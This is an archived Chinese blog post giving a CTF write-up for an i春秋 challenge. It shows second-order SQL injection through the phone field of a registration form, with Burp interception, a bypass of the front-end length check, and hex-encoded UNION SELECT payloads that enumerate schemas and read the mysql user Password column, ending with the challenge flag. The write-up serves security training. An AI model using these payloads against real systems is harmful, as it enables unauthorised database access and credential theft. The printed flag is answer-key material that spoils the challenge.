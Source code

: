 <!--yml
category: 未分类
date: 2022-04-26 14:47:59
-->

# There only 10 people use the same phone as you（i春秋CTF题解）_weixin_30618985的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_30618985/article/details/98878078](https://blog.csdn.net/weixin_30618985/article/details/98878078)

## （1）访问网址进行CTF测试，仅出现登陆与注册的页面

![](img/cf8ebd6037491fdab4d9863f411bd3eb.png)

## （2）进行注册尝试登陆并进行burp抓取数据包：

![](img/c6e2d13e7c076955a91ba352697ee366.png)

![](img/b0baafe4bef91b297ab262ec37106d39.png)

## （3）注册成功，进行登陆尝试查看信息是否具有提示，在登录的页面只有两个点击页面，一个为：Check，一个为logout

![](img/8db67deccc104780d8b64ec12253f222.png)

## （4）进入到Check的登录页面，查看是否具有提示信息，果然有提示，发现了一句良心提示，找到思路，让我们对注册页面的电话那一栏进行sql注入操作！

![](img/ed2497a6a52de2ba5c71c10a85ba18f5.png)

![](img/5241f9678de772217d6543a596e033a9.png)

## （5）首先，进行抓包：为了不做重复型的工作，我们可以使用burp的repeater进行包的重复发送

![](img/fe65be64230b978b008224ef2da87401.png)

![](img/00ca4ce4310fc8c34faabcafe7356b81.png)

##  （6）每注册一次，希望能执行一次sql的语句注入，猜想：

> **请尝试，明文输入sql语句，，这时，你会发现页面提示你：电话必须是数字类型；**
> 
> **请尝试，对sql语句进行16进行编码——最接近数字手机号的操作，，这时，你还会发现页面限制了你的字符数量；**
> 
> **请尝试，对前端代码的字符数字进行修改再注册，发现，可以注册成功。**

**![](img/8060eb81402386462f13d35130cb1fa4.png)**

![](img/f52c71317c166c9d11d37d2d8e3e9d94.png)

## 这就是burp抓包发送数据的好处，不会因为前端代码的限制而被限制

## （7）构造sql注入语句：

> -1 union select table_schema from information_schema.columns

## 进行了整个数据库的数据查询，16进制加密为：

> ## 0x2d3120756e696f6e2073656c656374207461626c655f736368656d612066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73

## 登录显示结果：

![](img/0134c814f6604d81bc5eacfb31a692a1.png)

## （8）三个库，我们猜想，一般admin或是flag都藏在mysql库中，使用这个库进行查询表的操作：

> -1 union select table_name from information_schema.columns where table_schema='mysql'

## 16进制编码结果为：

> 0x2d3120756e696f6e2073656c656374207461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d276d7973716c27

## 登录页面显示结果如图：

![](img/c0d5cead4f6b09d6a60115b95d6c0c5e.png)

##  （9）存在一个user表，我们试着查询user表的字段操作：

> -1 union select column_name from information_schema.columns where table_schema='mysql' and table_name='user'

## 16进制编码如下：

> 0x2d3120756e696f6e2073656c65637420636f6c756d6e5f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f736368656d613d276d7973716c2720616e64207461626c655f6e616d653d277573657227

![](img/269a99d2ea9563d7cf798c1c5ab937cc.png)

## （10）发现有一个User与Password的字段，我们可以猜测，flag是否就在这两个字段里面呢？

> -1 union select Password from user
> 
> 0x2d3120756e696f6e2073656c6563742050617373776f72642066726f6d2075736572

![](img/b21522d7095d707de0df7684ed97b573.png)

## 额。。似乎查错表了，将就着看吧，，，提示最后的sql注入：

> -1 union select  phone from user where username=admin
> 
> flag{7610c57e-481c-47ad-9316-0323f9eff9af}